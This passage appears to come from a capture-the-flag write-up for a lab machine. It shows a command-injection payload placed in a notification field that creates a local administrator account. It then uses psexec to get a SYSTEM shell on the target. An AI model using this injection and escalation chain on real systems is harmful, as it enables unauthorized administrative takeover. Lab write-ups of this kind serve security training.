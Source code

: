 ```
trial.txt | net user [username] [password] /add ; net localgroup administrators [username]
/add
```

We go back to Account Settings > Notifications, click on the edit icon for the notification we created and then the bell icon to trigger it. 

We use psexec to login as the created admin user and gain access to a shell as SYSTEM.

```
psexec.py [username]:[password]@10.10.10.152
```